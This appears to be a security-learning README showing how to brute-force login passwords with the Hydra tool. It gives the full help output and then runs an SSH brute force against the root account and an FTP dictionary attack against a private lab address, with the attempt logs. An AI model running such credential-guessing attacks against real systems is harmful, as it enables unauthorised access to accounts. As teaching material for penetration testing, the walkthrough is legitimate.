

# BruteForcing
Brute force attack is a method used in cryptanalysis to find a password or key. It involves testing, one by one, all possible combinations. 
* This method is generally considered the simplest conceivable.
* It allows any password to be broken in a finite time regardless of the protection used, but the time increases with the length of the password
* This method is often combined with dictionary and rainbow table attack to find the secret faster.

## Tool
<hr>

### Hydra
* Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.
* Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

### Launch hydra

```bash
hydra
```
output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

`Example : hydra -l user -P passlist.txt ftp://192.168.0.1`

## protocols supported.


# let's try
```bash
hydra -l root -x 1:9:aA1 192.168.133.129 ssh
```
```bash
hydra -V -l root -x 1:9:aA1 192.168.133.129 ssh
```
output

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 16:59:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 242234 login tries (l:1/p:242234), ~15140 tries per task
[DATA] attacking ssh://192.168.133.129:22/
```
## Brute forcing
we will create two files containing usernames and passwords.

### Let's try
```bash
hydra -V -L usernames -P passwords 192.168.133.129 ftp

````
Output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 17:35:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://192.168.133.129:21/
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty12" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty12" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty12" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty12" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty12" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty" - 11 of 16 [child 10] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty12" - 12 of 16 [child 11] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty" - 13 of 16 [child 12] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty12" - 14 of 16 [child 13] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty" - 15 of 16 [child 14] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty12" - 16 of 16 [child 15] (0/0)
|
```

